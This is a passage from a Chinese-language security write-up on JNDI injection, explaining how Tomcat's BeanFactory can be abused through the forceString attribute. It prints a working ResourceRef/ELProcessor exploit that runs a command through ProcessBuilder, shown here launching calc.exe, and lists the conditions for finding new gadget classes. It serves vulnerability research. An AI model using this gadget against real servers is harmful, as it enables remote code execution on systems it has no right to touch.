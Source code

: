   ```java
          valueArray[0] = value;
          //调用方法参数为value（就是当前RefAddr的Content）
          method.invoke(bean, valueArray);
          continue;
      }
      //遍历pda就是bean的属性描述
      for (int i = 0; i<pda.length; i++) {
          if (pda[i].getName().equals(propName)) {
              Class<?> propType = pda[i].getPropertyType();
              //只允许调用方法参数为几个基本类String/Double/Character/...且只能有一个参数的方法
              if (propType.equals(String.class)) {
                  valueArray[0] = value;
              } else if (propType.equals(Character.class)
                         || propType.equals(char.class)) {
                  valueArray[0] =
                      Character.valueOf(value.charAt(0));
              }
              //拿到对应写属性的方法，调用其方法写属性
              Method setProp = pda[i].getWriteMethod();
              setProp.invoke(bean, valueArray);
              break;
          }
      }
  }
  //返回写完属性生成的bean
  return bean;
  ```
  
  大概总结一下流程，会新建`classname对应的类为beanClass`,然后根据`forceString`属性，的值来切分（“a=b”）,就会调用B方法，并且将以a为主键的字符串传进去。最经典的exp也就不难解释了。
  
  ```java
  ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
  ref.add(new StringRefAddr("forceString", "x=eval"));
  ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd.exe','/c','calc.exe']).start()\")"));
  ReferenceWrapper wrapper = new ReferenceWrapper(ref);
  ```
  
  浅蓝师傅： https://tttang.com/archive/1405/ 挖出了新的利用链。超爱eki的总结:
  
  - 恶意类有public修饰的无参构造方法（getConstructor().newInstance()所限）
  - 恶意类有只有一个String.class类型参数的危险方法（paramTypes所限）
  - 恶意类有只有一个基本类型参数的满足bean规范的（setXX）危险方法（paramTypes所限）
  
  ## 0x03 LDAP 
  
  其实更多的就是对于RMI和上面这两种了，LDAP感觉我碰到挺少的。其实也就是常见的两种存储方式
  
  - Reference
  